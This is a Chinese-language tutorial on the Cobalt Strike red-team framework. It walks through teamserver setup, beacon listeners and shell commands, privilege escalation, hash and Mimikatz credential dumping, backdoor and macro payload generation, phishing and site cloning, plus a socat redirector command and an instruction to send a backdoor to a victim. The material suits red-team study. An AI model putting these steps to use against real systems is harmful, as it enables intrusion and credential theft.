









[TOC]

Referer:
- Cobalt Strike系列wiki https://github.com/aleenzz/Cobalt_Strike_wiki
- https://wbglil.gitbooks.io/cobalt-strike/content/cobalt-strikejian-jie.html
- https://www.ichunqiu.com/course/57967 cs视频教材学习(国外翻译)
- 后渗透利器 Cobalt Strike 安装使用初体验 https://zhuanlan.zhihu.com/p/32267558
- cobalt strike 快速上手 [ 一 ] https://klionsec.github.io/2017/09/23/cobalt-strike/

# Cobalt Strike 基础

## 一、基本使用
1. 目录结构
```
cobaltstrike.exe/.bat Windows客户端启动程序(用来启动cobaltstrike.jar) 
cobaltstrike.jar 【主体程序】

teamserver  【Linux服务端启动程序(linux shell脚本)】
teamserver.bat 【Windows服务端启动程序(windows bat批处理)】

third-party 第三方工具 【vnc远程功能dll(如果没有就不能使用
|        README.vncdll.txt
|        winvnc.x64.dll 【vnc服务端dllx64位】
|        winvnc.x86.dll 【vnc服务端dllx86位】

agscript [拓展应用的脚本]
c2lint  [检查c2配置文件的语法和预览]
```

2. 启动命令

java -Dfile.encoding=UTF-8 -XX:ParallelGCThreads=4 -XX:+AggressiveHeap -XX:+UseParallelGC -jar cobaltstrike.jar
: 客户端启动命令, 如果需要汉化，可以加`-javaagent:CobaltStrikeCN.jar`命令。

输入主机ip，连接端口(默认50050)，以及你想使用的用户名和服务端密码就可以连接到服务器了。


teamserver <host> <password> [/path/to/c2.profile] [YYYY-MM-DD]
: 服务端启动命令(也需要加载cobalstrke.jar)
- <host> cs team server ip(真实外网ip)
- <password> 连接密码
- [/path/to/c2.profile] 可选，加载自定义的 C2 profile
- [YYYY-MM-DD] 可选 Beacon有效负载运行结束日期。如果设置此选项则会将其生成的每Beacon中都嵌入此结束日期

teamserver实际上是一个bash脚本
```
# generate a certificate
        # naturally you're welcome to replace this step with your own permanent certificate.
        # just make sure you pass -Djavax.net.ssl.keyStore="/path/to/whatever" and
        # -Djavax.net.ssl.keyStorePassword="password" to java. This is used for setting up
        # an SSL server socket. Also, the SHA-1 digest of the first certificate in the store
        # is printed so users may have a chance to verify they're not being owned.
if [ -e ./cobaltstrike.store ]; then
        print_info "Will use existing X509 certificate and keystore (for SSL)"
else
        print_info "Generating X509 certificate and keystore (for SSL)"
        keytool -keystore ./cobaltstrike.store -storepass 123456 -keypass 123456 -genkey -keyalg RSA -alias cobaltstrike -dname "CN=Major Cobalt Strike, OU=AdvancedPenTesting, O=cobaltstrike, L=Somewhere, S=Cyberspace, C=Earth"
fi

# start the team server.
java -XX:ParallelGCThreads=4
-Dcobaltstrike.server_port=50050
-Djavax.net.ssl.keyStore=./cobaltstrike.store
-Djavax.net.ssl.keyStorePassword=123456
-server -XX:+AggressiveHeap
-XX:+UseParallelGC -classpath
./cobaltstrike.jar server.TeamServer $*
```

3. 监听器：

在cs中的监听器有两种,一种是beacon,另一种是foreign

- beacon为cs内置监听器,也就是说,当我们在目标系统成功执行payload以后,会弹回一个beacon的shell给cs
- foreign主要是提供给外部使用的一些监听器,比如你想利用cs派生一个meterpreter或者armitage的shell回来,来继续后面的内网渗透,这时就选择使用外部监听器

4. stager传输器

一个传输器是一个很小的代码，它连接并且下载真实的攻击Payload并且载入内存。利用传输器可以绕过很多杀软。


5. 基本上线操作：
```
点击左上角的Cobalt Strike菜单 
  -> 选中Listeners 
    -> 接着点击Add按钮会自动跳出监听器的配置框 
      -> 设置好端口ip [ 实际中最好用域名(走dns隧道) ]和payload类型即可创建,之后,团队服务器会一直监听该端口等待beacon shell回连的数据

点击Attack
    ->点击Package,选择Window Executable后门
        ->生成保存后，发送给受害者去点击访问即可上线。
    
```




> 当目标触发payload以后,会自动去下载shellcode, 最后会谈一个beacon shell


## 二、会话命令
### 2.1 右键命令
在对目标右键可以进行各种操作:
- 进入beacon(interact)
- Access (执行命令)
- Explore (目标)
- Pivoting (代理中转)
- spawn (增加一个会话)
- session (会话管理)

**Access**
- Dump Hashes 运行hashdump命令，需要管理员权限
- Elevate 提权 
```
- ms14-058是个老提权漏洞利用方式，可利用于Windows 7系统。
- uac-dll是一种Bypass UAC攻击，是由本地管理员运行payload从中等权限往最高权限提升的过程，适用于windows 7和windows 10
- uac-token-duplication是利用令牌窃取绕过uac从中等权限往最高权限提升，此攻击使用UAC漏洞，该漏洞允许非提升的进程使用从提升的进程中窃取的令牌来启动任意进程，是另一种Bypass UAC攻击
```
- Golden Ticket 黄金票据
- make token 
- Run Mimikatz 运行Mimikatz的logonpasswords命令
- Spawn As 以其他用户权限重新生成一个会话。

**Explore**
- Browser Pivot(浏览器代理)
- Desktop VNC 远程VNC 
> 通过注入vnc dll到目标进程开启远程vnc功能可以直接操作或查看目标桌面
- File Browser(文件管理)
- Net View 执行Windows的net view 命令
- Port Scan 端口扫描
- Process List 进程列表
- Screetsnot 屏幕截图

**Pivot(代理中转)**
用来开启代理的
- Socks Server
- Listener 让一台主机作为中转器
- Deploy VPN: 部署VPN

**Spawn**
新增会话, 通过新增会话可以和msf或者Armitage联动

打开MSF或Armitage做好监听配置之后选择或添加一个外部Payload然后点击Choose之后就会收到会话连接

**Session**
会话管理
- Note 备注
- Remove 删除
- Sleep 设置睡眠时间
- Exit 退出，木马执行结束运行。

### 2.2 beacon 
1. beacon的两个通信策略, 异步通信和实时交互

Beacon是异步有效负载。命令不会立即执行。默认情况下，Beacon每60秒连接检查一次，可以使用sleep命令更改此设置, sleep 0的时候就变成了实时交互了。

2. beacon分类

cs自带有六个beacon:
```
HTTP and HTTPS Beacon
2.windows/beacon_dns/reverse_http
3.windows/beacon_http/reverse_http
4.windows/beacon_https/reverse_https

DNS Beacon
1.windows/beacon_dns/reverse_dns_txt

SMB Beacon
5.windows/beacon_smb/bind_pipe

TCP Beacon
6.windows/beacon_tcp/bind_tcp
```

#### 2.2.1 http/https Beacon

我们可以让beacon的监听器和重定向器联合工作，这样可以更加好的隐藏我们的cs服务器。常见的一些重定向工具: iptables, socat等。

    socat TCP4-LISTEN:80,fork TCP4:[team server]:80

#### 2.2.2 dns Beacon
dns和http传输速率对比。

#### 2.2.3 smb Beacon

```
help 			查看beacon shell所有内置命令帮助,如果想查看指定命令的用法,可以这样,eg: help checkin
note 			给当前目录机器起个名字, eg: note beacon-shell
cd			在目标系统中切换目录,注意在win系统中切换目录要用双反斜杠,或者直接用'/' eg: cd c:\\
mkdir 			新建目录, eg: mkdir d:\\beacon
rm 			删除文件或目录, eg: rm d:\\beacon
upload 			上传文件到目标系统中
download		从目标系统下载指定文件,eg: download C:\\Users\\win7cn\\Desktop\\putty.exe
cancel			取消下载任务,比如,一个文件如果特别大,下载可能会非常耗时,假如中途你不想继续下了,就可以用这个取消一下
shell			在目标系统中执行指定的cmd命令, eg: shell whoami
getuid 			查看当前beacon 会话在目标系统中的用户权限,可能需要bypassuac或者提权
pwd			查看当前在目录系统中的路径
ls			列出当前目录下的所有文件和目录
drives			列表出目标系统的所有分区[win中叫盘符]
ps			查看目标系统当前的所有的进程列表
kill			杀掉指定进程, eg: kill 4653
sleep 10		指定被控端休眠时间,默认60秒一次回传,让被控端每10秒来下载一次任务,实际中频率不宜过快,容易被发现,80左右一次即可
jobs			列出所有的任务列表,有些任务执行时间可能稍微较长,此时就可以从任务列表中看到其所对应的具体任务id,针对性的清除
jobkill			如果发现任务不知是何原因长时间没有执行或者异常,可尝试用此命令直接结束该任务, eg: jobkill 1345
clear			清除beacon内部的任务队列
checkin			强制让被控端回连一次
exit 			终止当前beacon 会话
ctrl + k 		清屏
```


### 2.3 Script Console
```
? 执行sleep判断语句并输出结果
e 执行sleep说明语句
help 帮助
load 加载一个脚本
ls 列出加载的所有脚本
proff 关闭脚本分析器
pron 为开启脚本分析器
profile 脚本性能统计
reload 重新加载脚本
troff 关闭脚本跟踪功能
tron 开启脚本跟踪功能
unload 卸载脚本
x 执行sleep表达式并输出结果
```

## 三、菜单栏
- Cobalt Strike
- 视图 View
- 攻击 Attacks
- 报告 Reporting
- 帮助 Help

### 3.1 Cobalt Strike
1. 新建连接(New Connection), 对应如下两个按钮

2. 设置——主要是设置cs的界面以及保存的连接记录等等

3. 可视化——对应着这三按钮
4. VPN接口——主要是管理VPN的，作为跳板
5. 监听器——这个很重要是用来监听回连的, 包括以下九种监听器
```
1.windows/beacon_dns/reverse_dns_txt
2.windows/beacon_dns/reverse_http
3.windows/beacon_http/reverse_http
4.windows/beacon_https/reverse_https
5.windows/beacon_smb/bind_pipe
6.windows/beacon_tcp/bind_tcp
7.windows/foreign/reverse_http
8.windows/foreign/reverse_https
9.windows/foreign/reverse_tcp

- beacon为cs内置监听器,也就是说,当我们在目标系统成功执行payload以后,会弹回一个beacon的shell给cs
- foreign主要是提供给外部使用的一些监听器,比如你想利用cs派生一个meterpreter或者armitage的shell回来,来继续后面的内网渗透,这时就选择使用外部监听器
```
6. 脚本管理器(Script Manager)——用来管理加载脚本
7. 关闭——退出CS

### 3.2 视图(View)
1. 应用信息(Application): 信息收集模块搜集的信息可以在这里查看
2. 凭据信息(Credential) 获取到的账号密码凭据信息都可以在这里查看

3. 文件下载(Downloads) 可以查看从目标机下载回来的文件
4. 日志 (Event Log)
5. 键盘记录(Keystrokes) 用来查看保存的键盘记录的

6. 代理信息(Proxy Pivots) 可以查看开启的代理
7. 屏幕截图(Screenshots)
8. 脚本控制台(Script Console)
9. 目标


### 3.3 攻击(Attack)
1. 生成后门(Packages) 生成各种后门来连接cs, 类型有如下几种:
```
HTML Application 生成恶意的HTA木马文件
MS Office Macro 生成office宏病毒文件
Payload Generator 生成各种语言版本的payload
USB/CD AutoPlay 生成利用自动播放运行的木马文件
Windows Dropper 捆绑器，能够对其他文件进行捆绑
Windows Executable 生成可执行exe木马
Windows Executable(S) 生成无状态的可执行exe木马
```

2. .钓鱼攻击(Web Drive-By)，这里主要是辅助和横向模块
```
web服务管理 对开启的web服务进行管理
克隆网站 可以记录受害者提交的数据
文件下载 提供一个文件下载，可以修改Mime信息
脚本web传递 生成脚本通过web传递(利用powershell，bitsadmin，regsvr32生成会话)
签名Applet攻击 使用java自签名的程序进行钓鱼攻击
智能攻击 自动检测java版本并进行攻击，针对Java 1.6.0_45以下以及Java 1.7.0_21以下版本
信息搜集 用来获取一些系统信息，比如系统版本，Flash版本，浏览器版本等
```
3. 钓鱼邮件(Spear Phish) 用来邮件钓鱼的一般不常用

### 3.4 工具栏


## 四、脚本使用
Cobalt Strike->Script Console


常见脚本功能:

[elevate.cna](https://github.com/rsmudge/ElevateKit)
: 功能: 增加五种提权方式


[ProcessTree.cna](https://github.com/ars3n11/Aggressor-Scripts)
: 功能: 让ps命令可以显示父子关系并显示颜色

ArtifactPayloadGenerator.cna
: 创建多种类型的payload。生成的文件在cs目录下的opt\cobaltstrike\

AVQuery.cna
: 查询目标所安装的所有杀软

CertUtilWebDelivery.cna
: 利用CertUtil和rundll32生成会话这个应该都知道了解

RedTeamRepo.cna
: 就是提示一下常用的渗透命令

Eternalblue.cna
: ms17-010